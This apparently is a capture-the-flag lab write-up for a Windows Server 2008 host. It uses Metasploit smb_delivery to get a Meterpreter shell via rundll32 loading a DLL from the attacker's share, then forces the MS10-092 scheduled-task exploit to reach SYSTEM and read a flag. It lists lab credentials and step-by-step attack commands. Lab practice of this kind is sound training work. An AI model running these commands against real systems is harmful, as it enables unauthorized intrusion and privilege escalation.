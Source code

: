 # Windows Server

Obtain a shell on the target host, enumerate the system and escalate privileges. Submit the contents of the flag.txt file on the Administrator Desktop.

## 🔍 Objective
Obtain a shell on the target Windows host and escalate privileges to Administrator. Retrieve the contents of flag.txt located on the Administrator Desktop.

## 🖥️ Target Details
RDP Target IP: 10.129.226.66

Hostname: ACADEMY-WINLPE-2K8

Username: htb-student

Password: HTB_@cademy_stdnt!

My Host IP: 10.10.14.45

## 🛠️ Step 1: Start Metasploit Framework
```bash
sudo msfconsole
```
## 🛠️ Step 2: Search and Use SMB Delivery Exploit
```bash
search smb_delivery
use 0
```
**Set Required Options**
```bash
set srvhost 10.10.14.45
set lhost 10.10.14.45
set target 0
exploit
```
**Metasploit Output:**
```bash
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.45:4444
[*] Server is running. Listening on 10.10.14.45:445
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.45\lFTVY\test.dll,0
```
## 💻 Step 3: Execute Payload on Target via RDP
In the RDP session, execute:
```bash
rundll32.exe \\10.10.14.45\lFTVY\test.dll,0
```
## ✅ Step 4: Shell Obtained on Host
You will observe NTLM authentication response and eventually a Meterpreter session:
```bash
[*] Sending stage (177734 bytes) to 10.129.226.66
[*] Meterpreter session 1 opened ...
```
**Check sessions:**
```bash
sessions
```
**Interact with session:**
```bash
sessions -i 1
```
## 🧠 Step 5: Process Migration
**List processes:**
```bash
ps
```
Find conhost.exe (or other stable processes) and note PID, then:
```bash
migrate 2520  # (example PID)
```
**Successful migration message:**
```bash
[*] Migrating from XXXX to 2520...
[*] Migration completed successfully.
```
## 🔍 Step 6: Privilege Escalation - MS10-092
Search for exploit:
```bash
search 2010-3338
use 0
```
**Set Exploit Options:**
```bash
set session 1
set lhost 10.10.14.45
set lport 4443
```
**Show options to confirm:**
```bash
show options
```
**Run Exploit:**
```bash
exploit
```
**Initial result:**
```bash
[-] Exploit aborted due to failure: not-vulnerable...
```
**Force the exploit to run anyway:**
```bash
set ForceExploit true
exploit
```
**You should see:**
`
[*] Creating task...
[*] SUCCESS: The parameters of scheduled task ...
`
## 🔐 Step 7: Confirm Privilege Escalation
You will receive a new session or shell as NT AUTHORITY\SYSTEM.

**Check whoami:**
`whoami`

**Expected Output:**
```bash
nt authority\system
```
## 🏁 Step 8: Retrieve the Flag
**Navigate to Administrator desktop:**
```bash
cd C:\Users\Administrator\Desktop
dir
type flag.txt
```

## 📝 Summary

| Step                              | Action                          | Status |
|-----------------------------------|----------------------------------|--------|
| 1                                 | RDP Access                       | ✅     |
| 2                                 | SMB Delivery                     | ✅     |
| 3                                 | Shell via DLL                    | ✅     |
| 4                                 | Process Migration                | ✅     |
| 5                                 | Privilege Escalation with MS10-092 | ✅  |
| 6                                 | SYSTEM Access                    | ✅     |
| 7                                 | Flag Retrieved                   | ✅     |

